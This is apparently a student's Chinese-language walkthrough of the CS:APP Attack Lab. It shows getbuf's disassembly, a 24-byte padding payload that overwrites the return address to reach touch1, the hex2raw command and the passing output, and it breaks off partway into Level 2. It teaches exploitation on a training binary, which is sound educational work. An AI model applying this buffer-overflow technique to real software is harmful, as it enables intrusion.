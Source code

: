 我们可以看出getbuf会从缓冲区读入数据存入buf数组中，而我就可以利用这个buf数组的大小限制对代码进行攻击，使得`getbuf`执行完后不返回到`test`，而是跳转到`touch1`从而达到目的。        
接下来需要找到`BUFFER_SIZE`的大小。因此查看getbuf函数的反汇编代码：

```x86asm
0000000000401768 <getbuf>:
401768:       48 83 ec 18             sub    $0x18,%rsp
40176c:       48 89 e7                mov    %rsp,%rdi
40176f:       e8 36 02 00 00          callq  4019aa <Gets>
401774:       b8 01 00 00 00          mov    $0x1,%eax
401779:       48 83 c4 18             add    $0x18,%rsp
40177d:       c3                      retq
40177e:       66 90                   xchg   %ax,%ax
```
看到一开始`%rsp`减少了0x18可以判断出，这个buffer的大小就是0x18个字节，即24个字节。也就是说，我需要将这24个字节填满，再注入一条`touch1`的返回地址即可将原返回地址覆盖，使得`getbuf`之后返回到`touch1`.

查看`touch1`的反汇编代码可以得到它的地址为`0x401780`。
因为实验环境为**小端机器**，所以我们可以构造输入的攻击代码段为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
80 17 40 00 00 00 00 00
```
按照attacklab.pdf中介绍的方法我们对`ctarget`进行攻击:
`./hex2raw < phase1 | ./ctarget`    

程序运行提示成功：

```
Cookie: 0x286582b8
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

### Level 2
先来看touch2的代码：

```c
void touch2(unsigned val)
{
	vlevel = 2;       /* Part of validation protocol */
	if (val == cookie) {
	printf("Touch2!: You called touch2(0x%.8x)\n", val);
	validate(2); 
	}
	else {
	printf("Misfire: You called touch2(0x%.8x)\n", val);
	fail(2); 
	}
	exit(0); 
}
```
从这段代码看出来我需要为`touch2`设置一个参数val，它的值为target为我提供的cookie:`0x286582b8`，所以这次攻击与上一次唯一的区别就是我在返回到`touch2`之前必须要它的第一个参数设置为cookie的值。而函数的第一个参数都存在寄存器`%rdi`中，于是我需要构造一段代码将cookie的值存到`%rdi`中，并设置`%rsp`中新的返回地址为存储`touch2`地址的栈中地址：
